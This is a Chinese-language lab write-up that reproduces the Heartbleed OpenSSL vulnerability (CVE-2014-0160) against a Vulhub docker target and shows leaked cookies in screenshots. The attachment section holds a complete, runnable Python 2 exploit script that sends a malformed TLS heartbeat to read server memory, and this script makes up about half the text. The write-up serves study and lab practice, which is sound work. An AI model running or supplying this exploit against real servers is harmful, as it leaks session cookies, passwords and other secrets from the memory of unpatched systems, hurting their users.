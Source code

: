 # 一、概述
* 心脏出血是OpenSSL库中的一个内存漏洞，攻击者利用这个漏洞可以服务到目标进程内存信息，如其他人的Cookie等敏感信息。
* 简单点说就是可以攻击者可以通过这个漏洞拿到用户的cookie或者passwd等一些敏感信息

# 二、影响版本
* Openssl 1.x

# 三、靶场环境
* 这里我使用的线下靶场`Vulhub`
```
root@wq:/home/wq/vulhub/openssl/heartbleed# ls
1.png  2.png  docker-compose.yml  README.md  README.zh-cn.md  ssltest.py  www
root@wq:/home/wq/vulhub/openssl/heartbleed# pwd
/home/wq/vulhub/openssl/heartbleed
root@wq:/home/wq/vulhub/openssl/heartbleed# docker-compose up -
root@wq:/home/wq/vulhub/openssl/heartbleed# docker ps
CONTAINER ID   IMAGE                     COMMAND                  CREATED          STATUS          PORTS                                                                      NAMES
0d8f3919ecdc   vulhub/nginx:heartbleed   "/usr/local/nginx/sb…"   23 minutes ago   Up 23 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp, 0.0.0.0:443->443/tcp, :::443->443/tcp   heartbleed_nginx_1
root@wq:/home/wq/vulhub/openssl/heartbleed# 

```
* 靶场环境测试：开始访问：`https://192.168.10.134`，发现访问时正常的，说明靶场环境搭建成功
![图 5](.images/CVE-2014-0160/IMG_20220121-155536030.png)  



# 四、漏洞复现
* 当靶场创建起来的时候我有个不好的习惯，就是立马就用工具先过一遍，大家不要学我，还是需要从信息收集开始一点点做。
![图 1](.images/CVE-2014-0160/IMG_20220121-155039239.png)  
* 既然发现了这个高危了漏洞，就尝试去利用，这里我使用了官方提供的脚本，运行命令：`python exp.py 192.168.10.134 -p 443`
![图 2](.images/CVE-2014-0160/IMG_20220121-155249554.png)  
* 脚本运行后，发现了一些敏感的词汇，例如这里是：`cookies`
![图 4](.images/CVE-2014-0160/IMG_20220121-155416789.png)  
* 这时候，我在到搭建靶场时的环境去看我本身的`cookies`，发现：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`   
![图 6](.images/CVE-2014-0160/IMG_20220121-155709431.png)  
* 对比以下2次`cookie值`
    * 第一次：`Cookie：CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
    * 第二次：`Cookie: CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fverity%2Findex%2Ecfm`
        * 解码后：
        `CFADMIN_LASTPAGE_ADMIN=/CFIDE/administrator/verity/index.cfm`
* 这时候发现脚本执行后就能够获取`cookies`的正确值



# 五、总结
* 在遇到一些扫描报告出现ssl漏洞可以利用的时候，不能轻视，不是加了ssl就是很保险的，在信息收集与漏洞扫描的时候，这些漏洞往往会造成很怕的影响，但是这里的SSL漏洞还是比较低级的，主要是服务端使用的Openssl版本是比较低的

# 六、附件
exp.py
```python
#!/usr/bin/python

# Quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)
# The author disclaims copyright to this source code.


"""
执行方式：
python exp.py 192.168.10.134 -p 443
注意版本：是python2
"""
import sys
import struct
import socket
import time
import select
import re
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]',
                       description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')


hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01                                  
''')

hb = h2bin(''' 
18 03 02 00 03
01 40 00
''')


def hexdump(s):
    for b in xrange(0, len(s), 16):
        lin = [c for c in s[b: b + 16]]
        hxdat = ' '.join('%02X' % ord(c) for c in lin)
        pdat = ''.join((c if 32 <= ord(c) <= 126 else '.') for c in lin)
        print '  %04x: %-48s %s' % (b, hxdat, pdat)
    print


def recvall(s, length, timeout=5):
    endtime = time.time() + timeout
    rdata = ''
    remain = length
    while remain > 0:
        rtime = endtime - time.time()
        if rtime < 0:
            return None
        r, w, e = select.select([s], [], [], 5)
        if s in r:
            data = s.recv(remain)
            # EOF?
            if not data:
                return None
            rdata += data
            remain -= len(data)
    return rdata


def recvmsg(s):
    hdr = recvall(s, 5)
    if hdr is None:
        print 'Unexpected EOF receiving record header - server closed connection'
        return None, None, None
    typ, ver, ln = struct.unpack('>BHH', hdr)
    pay = recvall(s, ln, 10)
    if pay is None:
        print 'Unexpected EOF receiving record payload - server closed connection'
        return None, None, None
    print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
    return typ, ver, pay


def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)


if __name__ == '__main__':
    main()



```